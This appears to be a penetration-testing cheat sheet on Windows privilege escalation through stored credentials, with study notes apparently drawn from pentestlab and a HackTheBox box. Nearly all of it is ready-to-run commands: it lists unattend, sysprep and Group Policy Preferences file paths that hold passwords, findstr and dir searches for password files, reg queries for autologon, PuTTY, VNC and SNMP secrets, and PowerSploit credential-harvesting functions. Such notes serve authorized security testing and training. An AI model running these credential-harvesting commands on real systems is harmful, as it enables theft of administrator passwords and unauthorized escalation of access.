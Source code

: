 ```yaml
---
title: stored credentials
category: win privesc
order: 1
---
```



* [WPE-01 - Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)
It is very common for administrators to use Windows Deployment Services in order to create an image of a Windows operating system and deploy this image in various systems through the network. This is called unattended installation. The problem with unattended installations is that the local administrator password is stored in various locations either in plaintext or as Base-64 encoded. These locations are:


## | cmdkeys
"cmdkey /list"

## | files unattended
```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

## | iis config
C:\inetpub\wwwroot\web.config

## | group policies

**[hackthebox]** querier

Local administrators passwords can also retrieved via the Group Policy Preferences. The Groups.xml file which contains the password is cached locally or it can be obtained from the domain controller as every domain user has read access to this file. The password is in an encrypted form but Microsoft has published the key and it can be decrypted.
```
C:\ProgramData\Microsoft\Group Policy\History\????\Machine\Preferences\Groups\Groups.xml
\\????\SYSVOL\\Policies\????\MACHINE\Preferences\Groups\Groups.xml
```

cpasswd attr
```
Services\Services.xml
ScheduledTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```

## | commands to find credentials
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

C:\> dir /b /s unattend.xml
C:\> dir /b /s web.config
C:\> dir /b /s sysprep.inf
C:\> dir /b /s sysprep.xml
C:\> dir /b /s *pass*
C:\> dir /b /s vnc.ini
```


# Registry
---
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```
## | puty
```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```
## | mcaffee
```
%AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml
```
## | VNC Stored
```
    reg query “HKCU\Software\ORL\WinVNC3\Password”
```
## | Windows Autologin:
```
    reg query “HKLM\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon”
```
## | SNMP Parameters:
```
    reg query “HKLM\SYSTEM\Current\ControlSet\Services\SNMP”
```

# Powersploit
---
```
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```

